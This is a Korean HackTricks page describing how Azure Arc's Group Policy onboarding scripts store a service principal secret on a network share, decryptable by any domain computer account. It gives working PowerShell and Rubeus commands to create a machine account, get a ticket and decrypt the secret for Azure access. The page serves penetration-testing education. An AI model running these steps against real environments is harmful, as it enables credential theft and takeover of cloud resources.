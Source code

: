 # Az - Arc 취약한 GPO 배포 스크립트

{{#include ../../../banners/hacktricks-training.md}}

### 문제 식별

Azure Arc는 그룹 정책 개체 방법을 사용하여 새로운 내부 서버(도메인에 가입된 서버)를 Azure Arc에 통합할 수 있도록 합니다. 이를 위해 Microsoft는 온보딩 절차를 시작하는 데 필요한 배포 툴킷을 제공합니다. ArcEnableServerGroupPolicy.zip 파일 내에는 다음 스크립트가 포함되어 있습니다: DeployGPO.ps1, EnableAzureArc.ps1, 및 AzureArcDeployment.psm1.

DeployGPO.ps1 스크립트를 실행하면 다음 작업이 수행됩니다:

1. 로컬 도메인 내에 Azure Arc 서버 온보딩 GPO를 생성합니다.
2. 온보딩 프로세스를 위해 생성된 지정된 네트워크 공유에 EnableAzureArc.ps1 온보딩 스크립트를 복사하며, 이 공유에는 Windows 설치 패키지도 포함되어 있습니다.

이 스크립트를 실행할 때 시스템 관리자는 두 가지 주요 매개변수인 **ServicePrincipalId**와 **ServicePrincipalClientSecret**을 제공해야 합니다. 또한 도메인, 공유를 호스팅하는 서버의 FQDN, 공유 이름과 같은 다른 매개변수도 필요합니다. 테넌트 ID, 리소스 그룹 및 기타 필요한 정보와 같은 추가 세부정보도 스크립트에 제공되어야 합니다.

DPAPI-NG 암호화를 사용하여 지정된 공유의 AzureArcDeploy 디렉토리에 암호화된 비밀이 생성됩니다. 암호화된 비밀은 encryptedServicePrincipalSecret이라는 이름의 파일에 저장됩니다. 이와 관련된 증거는 DeployGPO.ps1 스크립트에서 찾을 수 있으며, 여기서 암호화는 $descriptor와 $ServicePrincipalSecret을 입력으로 사용하여 ProtectBase64를 호출함으로써 수행됩니다. 설명자는 도메인 컴퓨터 및 도메인 컨트롤러 그룹 SID로 구성되어 있어, ServicePrincipalSecret은 도메인 컨트롤러 및 도메인 컴퓨터 보안 그룹에 의해서만 복호화될 수 있도록 보장합니다.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

다음 조건이 있습니다:

1. 내부 네트워크에 성공적으로 침투했습니다.
2. Active Directory 내에서 컴퓨터 계정을 생성하거나 제어할 수 있는 능력이 있습니다.
3. AzureArcDeploy 디렉토리를 포함하는 네트워크 공유를 발견했습니다.

AD 환경 내에서 머신 계정을 얻는 방법은 여러 가지가 있습니다. 가장 일반적인 방법 중 하나는 머신 계정 쿼터를 악용하는 것입니다. 또 다른 방법은 취약한 ACL 또는 다양한 다른 잘못된 구성으로 머신 계정을 손상시키는 것입니다.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
머신 계정을 얻으면 이 계정을 사용하여 인증할 수 있습니다. runas.exe 명령어와 netonly 플래그를 사용하거나 Rubeus.exe로 패스-더-티켓을 사용할 수 있습니다.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
컴퓨터 계정에 대한 TGT가 메모리에 저장되어 있으면, 다음 스크립트를 사용하여 서비스 주체 비밀을 복호화할 수 있습니다.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
대안으로, 우리는 [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)를 사용할 수 있습니다.

이 시점에서, 우리는 암호화된ServicePrincipalSecret 파일과 동일한 네트워크 공유에 저장된 ArcInfo.json 파일에서 Azure에 연결하는 데 필요한 나머지 정보를 수집할 수 있습니다. 이 파일에는 TenantId, servicePrincipalClientId, ResourceGroup 등과 같은 세부 정보가 포함되어 있습니다. 이 정보를 사용하여 Azure CLI를 통해 손상된 서비스 주체로 인증할 수 있습니다.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
